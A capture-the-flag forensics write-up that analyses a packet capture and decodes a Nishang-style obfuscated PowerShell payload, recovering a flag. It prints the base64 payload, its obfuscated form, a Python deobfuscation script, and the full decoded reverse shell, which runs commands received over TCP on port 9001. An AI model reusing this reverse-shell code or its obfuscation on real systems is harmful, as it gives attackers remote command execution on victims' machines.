



## Nishang - WWCTF 2025 Write-up



**Challenge:** Nishang
**Category:** Forensics
**Points:** 100
**Author:** MinousE3

### Introduction
The **Nishang** challenge from the Forensics category provided us with a network capture file: [**challenge.pcap**](assets/files/challenge.pcap). Our objective was to analyze this packet capture to determine what was downloaded to the victim’s machine during the recorded session.

Given the challenge name—**Nishang**, a well-known PowerShell exploitation framework—there’s an immediate hint that some form of post-exploitation activity, such as script delivery or payload retrieval, may be involved. This set the stage for a packet-by-packet investigation to extract any suspicious or malicious file transfers that occurred during the capture.

### Digging Through Packets
After opening the provided capture file [**challenge.pcap**](assets/files/challenge.pcap) in Wireshark, I noticed that the capture was relatively small — only 13 packets in total. That immediately hinted that the activity of interest was short and specific, likely focused on a single HTTP transaction.



Upon inspecting the packets, I found one key HTTP GET request:

```
6	0.476328	192.168.75.139 → 192.168.75.130	HTTP	232	GET /udujreghjs.ps1 HTTP/1.1
```

This suggested that the victim machine downloaded a PowerShell script from a local HTTP server. To investigate further, I followed the TCP stream starting from this packet. This revealed the full HTTP request and response.



Inside the HTTP response, I discovered a large base64-encoded string. Given that the script was served with Content-type: application/octet-stream and the file extension .ps1, it was safe to assume that this base64 blob represented a PowerShell payload.

```
KAAoACgAIgB7ADQANwB9AHsAOQAwAH0AewAxADYAfQB7ADkANAB9AHsAMwAwAH0AewA4ADQAfQB7ADUAMgB9AHsAMQAxADEAfQB7ADUAOAB9AHsANQA2AH0AewAzADMAfQB7ADEAMAA2AH0AewAxADAAMQB9AHsAMgAzAH0AewAxADEAfQB7ADcAMwB9AHsAOQAyAH0AewAxADQAfQB7ADgANgB9AHsANAA5AH0AewAxADEANQB9AHsAMQAxADMAfQB7ADgAMAB9AHsANwAwAH0AewAyADIAfQB7ADkAOAB9AHsANAAwAH0AewAxADAAfQB7ADYAfQB7ADYANwB9AHsANQB9AHsANgA5AH0AewAyADUAfQB7ADQANAB9AHsANwAxAH0AewA0ADUAfQB7ADYAMQB9AHsANQA3AH0AewA5ADcAfQB7ADkAOQB9AHsAMQAwADQAfQB7ADEAMQAwAH0AewAxADEANwB9AHsAMQAwADkAfQB7ADEAMAA1AH0AewA5ADEAfQB7ADUAMwB9AHsANQAxAH0AewAzADQAfQB7ADEAMAAwAH0AewAyADYAfQB7ADIAMQB9AHsAMQAzAH0AewAxADEANgB9AHsAMwA5AH0AewAyADQAfQB7ADEAMAAzAH0AewA3ADgAfQB7ADMANwB9AHsANwAyAH0AewAyAH0AewA3AH0AewA4ADUAfQB7ADgAfQB7ADgAMgB9AHsANQA1AH0AewA2ADgAfQB7ADcANQB9AHsAOAA5AH0AewAxADIAfQB7ADYANAB9AHsANAAzAH0AewA0AH0AewAzAH0AewAzADUAfQB7ADcANwB9AHsAMwA4AH0AewAzADIAfQB7ADYAMwB9AHsAOQAzAH0AewAyADgAfQB7ADEANwB9AHsAOQA2AH0AewA3ADkAfQB7ADYANgB9AHsAMwA2AH0AewAyADkAfQB7ADgANwB9AHsAMQAwADcAfQB7ADEAMAA4AH0AewA4ADMAfQB7ADQAOAB9AHsANQA0AH0AewAxAH0AewAwAH0AewAxADEAMgB9AHsAOQB9AHsAMQAwADIAfQB7ADEANQB9AHsAMwAxAH0AewAxADgAfQB7ADgAMQB9AHsANQAwAH0AewA4ADgAfQB7ADIAMAB9AHsANwA2AH0AewA1ADkAfQB7ADYANQB9AHsANwA0AH0AewA2ADAAfQB7ADYAMgB9AHsANAAxAH0AewA0ADYAfQB7ADEAMQA0AH0AewA5ADUAfQB7ADIANwB9AHsAMQA5AH0AewA0ADIAfQAiAC0AZgAnAC4AJwAsACcAdAAnACwAJwBuACcALAAnACkAJwAsACcAaQBuAGcAIAAnACwAJwB9ADsAdwBoAGkAbABlACgAKABuACcALAAnADQAJwAsACcAegAwAHMAZQBuAGQAYgBhAGMAawAgACcALAAnACAAKABpACcALAAnAF0AOgA6AEEAUwBDAEkASQApACcALAAnAEwANgAnACwAJwAwAG4AfQAxACcALAAnADIAPgAmADEAIABMADYAJwAsACcAZABpAG4AZwAnACwAJwAgAG4AegAwAGMAbABpAGUAJwAsACcAZQB0AEIAeQB0AGUAcwAoAG4AegAwAHMAZQBuAGQAYgAnACwAJwAgAD0AIABOAGUAJwAsACcAZQBuAGQAYgBhAGMAawAnACwAJwApADsAbgAnACwAJwBsAG8AcwBlACgAJwAsACcAcgBpAHQAZQAnACwAJwBBAFMAQwBJAEkARQBuAGMAbwAnACwAJwA9ACAAMAAuACcALAAnADEAJwAsACcAZQBzACwAJwAsACcAMABpACAAPQAgAG4AegAwAHMAdAByACcALAAnAC4AJwAsACcAbgB0AC4AQwAnACwAJwBzACcALAAnAHAAdwBkACkAJwAsACcATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuACcALAAnAGEAYwBrADIAJwAsACcAYgAnACwAJwBtADMAXwAnACwAJwBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAJwAsACcAOwBuAHoAMAAnACwAJwAoACcALAAnACkAJwAsACcAbgBkACcALAAnAEcAZQB0AFMAdAByAGkAbgBnACgAbgB6ADAAYgB5AHQAJwAsACcANQAnACwAJwBsAHUAcwBoACgAKQAnACwAJwApAA0ACgAnACwAJwAgAE8AdQB0AC0AUwB0AHIAJwAsACcAZQBhAG0ALgBSAGUAYQBkACcALAAnAG4AegAwAGIAJwAsACcAfQA7AG4AegAwACcALAAnAG4AegAnACwAJwB5AHQAZQAgAD0AIAAnACwAJwAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAJwAsACcAMABzACcALAAnAHkAJwAsACcAUwBvACcALAAnAGUAYwB0ACAALQBUACcALAAnACgAWwB0AGUAeAAnACwAJwAgAG4AegAnACwAJwB3AHcAZgB7AHMAMAAnACwAJwB6ADAAYgAnACwAJwB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoADEAOQBSACcALAAnAGIAeQB0AGUALAAwACcALAAnAGUAbgBnAHQAaAApADsAbgB6ADAAcwB0AHIAJwAsACcAeQB0AGUAcwAsACAAMAAsACAAbgAnACwAJwBlAGEAbQAuAEYAJwAsACcAYQBjACcALAAnADQAJwAsACcALABuAHoAMABzAGUAbgBkAGIAeQB0AGUALgAnACwAJwBTACAAMQA5AFIAIAArACAAJwAsACcAJQB7ADAAJwAsACcAMABkACcALAAnAHoAJwAsACcAdABlAHMAIAAnACwAJwAoACcALAAnADsAJwAsACcAOQBSACwAOQAwADAAMQApADsAbgAnACwAJwBMACcALAAnAGEAJwAsACcAKABuAHoAMABzAGUAbgBkACcALAAnAHMAZQAnACwAJwAwAGkAJwAsACcAIAAxADkAUgBQACcALAAnAG4AegAwAGIAeQAnACwAJwB6ACcALAAnAGUAeAAnACwAJwA5AFIAOwBuAHoAMABzAGUAbgBkAGIAJwAsACcATgBlAHQALgAnACwAJwA9ACcALAAnAG4AdAAnACwAJwAuAFAAYQB0AGgAIAAnACwAJwB0AHIAZQBhAG0ALgBXACcALAAnAHQAYQAgACcALAAnADAAYwBsAGkAZQBuAHQAJwAsACcAYgBqACcALAAnAHoAMABzAHQAcgBlAGEAbQAgAD0AJwAsACcAawAyACAAIAA9ACAAbgB6ADAAJwAsACcAdwAtACcALAAnAGkAZQAnACwAJwAgACsAJwAsACcAeQAnACwAJwAuADYANQA1ADMAJwAsACcAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAbgB6ADAAJwAsACcAdAAnACwAJwBsAF8AMABiAGYAdQBzAGMANAA3ACcALAAnAC4ARwAnACwAJwAwACwAIABuAHoAJwAsACcAZABhAHQAJwAsACcATwAnACwAJwBwADAAdwAzAHIANQBoADMAbAAnACwAJwArACAAMQA5AFIAJwAsACcAPgAgADEAJwAsACcATgBlAHcALQAnACwAJwBhACAAPQAgACcALAAnAGMAawBlACcALAAnAGUAbgBjAG8AZABpAG4AZwAnACwAJwBbAF0AXQAnACwAJwBjAGwAJwAsACcAZQAnACwAJwApAC4AJwAsACcAKAAnACkAKQAtAHIAZQBQAEwAYQBjAGUAIAAgACcATAA2ADQAJwAsAFsAQwBoAGEAUgBdADEAMgA0AC0AQwByAGUAcABMAGEAQwBlACgAWwBDAGgAYQBSAF0ANAA5ACsAWwBDAGgAYQBSAF0ANQA3ACsAWwBDAGgAYQBSAF0AOAAyACkALABbAEMAaABhAFIAXQAzADkAIAAtAEMAcgBlAHAATABhAEMAZQAgACAAJwBuAHoAMAAnACwAWwBDAGgAYQBSAF0AMwA2ACkAfAAmACAAKAAoAGcAdgAgACcAKgBtAGQAUgAqACcAKQAuAG4AQQBtAEUAWwAzACwAMQAxACwAMgBdAC0AagBPAGkATgAnACcAKQA=
```
After decoding the base64 payload, the result was a heavily obfuscated PowerShell script that used the -f format operator to reorder and construct the real payload from a large indexed template string and an argument list. The string looked like this:
```
((("{47}{90}{16}{94}{30}{84}{52}{111}{58}{56}{33}{106}{101}{23}{11}{73}{92}{14}{86}{49}{115}{113}{80}{70}{22}{98}{40}{10}{6}{67}{5}{69}{25}{44}{71}{45}{61}{57}{97}{99}{104}{110}{117}{109}{105}{91}{53}{51}{34}{100}{26}{21}{13}{116}{39}{24}{103}{78}{37}{72}{2}{7}{85}{8}{82}{55}{68}{75}{89}{12}{64}{43}{4}{3}{35}{77}{38}{32}{63}{93}{28}{17}{96}{79}{66}{36}{29}{87}{107}{108}{83}{48}{54}{1}{0}{112}{9}{102}{15}{31}{18}{81}{50}{88}{20}{76}{59}{65}{74}{60}{62}{41}{46}{114}{95}{27}{19}{42}"-f'.','t','n',')','ing ','};while((n','4','z0sendback ',' (i',']::ASCII)','L6','0n}1','2>&1 L6','ding',' nz0clie','etBytes(nz0sendb',' = Ne','endback',');n','lose(','rite','ASCIIEnco','= 0.','1','es,','0i = nz0str','.','nt.C','s','pwd)','Object System.','ack2','b','m3_','peName System.Tex',';nz0','(',')','nd','GetString(nz0byt','5','lush()',')

',' Out-Str','eam.Read','nz0b','};nz0','nz','yte = ','.GetStream();[byt','0s','y','So','ect -T','([tex',' nz','wwf{s0','z0b','ts.TCPClient(19R','byte,0','ength);nz0str','ytes, 0, n','eam.F','ac','4',',nz0sendbyte.','S 19R + ','%{0','0d','z','tes ','(',';','9R,9001);n','L','a','(nz0send','se','0i',' 19RP','nz0by','z','ex','9R;nz0sendb','Net.','=','nt','.Path ','tream.W','ta ','0client','bj','z0stream =','k2  = nz0','w-','ie',' +','y','.6553','tes.Length)) -ne 0){;nz0','t','l_0bfusc47','.G','0, nz','dat','O','p0w3r5h3l','+ 19R','> 1','New-','a = ','cke','encoding','[]]','cl','e',').','('))-rePLace  'L64',[ChaR]124-CrepLaCe([ChaR]49+[ChaR]57+[ChaR]82),[ChaR]39 -CrepLaCe  'nz0',[ChaR]36)|& ((gv '*mdR*').nAmE[3,11,2]-jOiN'')
```

This style of obfuscation is typical in tools like Nishang, where string indices are paired with arguments to reconstruct a malicious payload at runtime. To make sense of the payload, I used a custom Python script ([**nishang_solve.py**](assets/files/nishang_solve.py)) that performs format substitution using Python’s str.format() method.
```python
def deobfuscate_powershell_format(template_str, args_list):
    """
    Takes a PowerShell format string with {index} references and an argument list,
    then returns the deobfuscated PowerShell script.
    """
    try:
        return template_str.format(*args_list)
    except IndexError as e:
        return f"Error during format substitution: {e}"

# === Replace these with any future payloads ===
template = ("{47}{90}{16}{94}{30}{84}{52}{111}{58}{56}{33}{106}{101}{23}{11}{73}{92}"
            "{14}{86}{49}{115}{113}{80}{70}{22}{98}{40}{10}{6}{67}{5}{69}{25}{44}{71}"
            "{45}{61}{57}{97}{99}{104}{110}{117}{109}{105}{91}{53}{51}{34}{100}{26}{21}"
            "{13}{116}{39}{24}{103}{78}{37}{72}{2}{7}{85}{8}{82}{55}{68}{75}{89}{12}{64}"
            "{43}{4}{3}{35}{77}{38}{32}{63}{93}{28}{17}{96}{79}{66}{36}{29}{87}{107}{108}"
            "{83}{48}{54}{1}{0}{112}{9}{102}{15}{31}{18}{81}{50}{88}{20}{76}{59}{65}{74}"
            "{60}{62}{41}{46}{114}{95}{27}{19}{42}")

args = [
    '.', 't', 'n', ')', 'ing ', '};while((n', '4', 'z0sendback ', ' (i', ']::ASCII)',
    'L6', '0n}1', '2>&1 L6', 'ding', ' nz0clie', 'etBytes(nz0sendb', ' = Ne', 'endback',
    ');n', 'lose(', 'rite', 'ASCIIEnco', '= 0.', '1', 'es,', '0i = nz0str', '.', 'nt.C',
    's', 'pwd)', 'Object System.', 'ack2', 'b', 'm3_', 'peName System.Tex', ';nz0', '(',
    ')', 'nd', 'GetString(nz0byt', '5', 'lush()', ')\n', ' Out-Str', 'eam.Read', 'nz0b',
    '};nz0', 'nz', 'yte = ', '.GetStream();[byt', '0s', 'y', 'So', 'ect -T', '([tex',
    ' nz', 'wwf{s0', 'z0b', 'ts.TCPClient(19R', 'byte,0', 'ength);nz0str', 'ytes, 0, n',
    'eam.F', 'ac', '4', ',nz0sendbyte.', 'S 19R + ', '%{0', '0d', 'z', 'tes ', '(',
    ';', '9R,9001);n', 'L', 'a', '(nz0send', 'se', '0i', ' 19RP', 'nz0by', 'z', 'ex',
    '9R;nz0sendb', 'Net.', '=', 'nt', '.Path ', 'tream.W', 'ta ', '0client', 'bj',
    'z0stream =', 'k2  = nz0', 'w-', 'ie', ' +', 'y', '.6553', 'tes.Length)) -ne 0){;nz0',
    't', 'l_0bfusc47', '.G', '0, nz', 'dat', 'O', 'p0w3r5h3l', '+ 19R', '> 1', 'New-',
    'a = ', 'cke', 'encoding', '[]]', 'cl', 'e', ').', '('
]

# === Run deobfuscation ===
if __name__ == "__main__":
    result = deobfuscate_powershell_format(template, args)
    print("=== Deobfuscated PowerShell Payload ===\n")
    print(result)
```

After running nishang_solve.py, the script revealed the deobfuscated PowerShell code:
```
┌──(minouse3㉿kali)-[~]
└─$ python3 nishang_solve.py
=== Deobfuscated PowerShell Payload ===

nz0client = New-Object System.Net.Sockets.TCPClient(19Rwwf{s0m3_p0w3r5h3ll_0bfusc4710n}19R,9001);nz0stream = nz0client.GetStream();[byte[]]nz0bytes = 0..65535L64%{0};while((nz0i = nz0stream.Read(nz0bytes, 0, nz0bytes.Length)) -ne 0){;nz0data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(nz0bytes,0, nz0i);nz0sendback = (iex nz0data 2>&1 L64 Out-String );nz0sendback2  = nz0sendback + 19RPS 19R + (pwd).Path + 19R> 19R;nz0sendbyte = ([text.encoding]::ASCII).GetBytes(nz0sendback2);nz0stream.Write(nz0sendbyte,0,nz0sendbyte.Length);nz0stream.Flush()};nz0client.Close()

```
This script establishes a reverse shell using System.Net.Sockets.TCPClient, receives commands from an external host, executes them with PowerShell, and sends back the output. The obfuscation includes placeholder markers like L64 and 19R, which act as delimiters or encoded characters.

### Flag
Within the reverse shell connection string, the flag was embedded:
```
wwf{s0m3_p0w3r5h3ll_0bfusc4710n}
```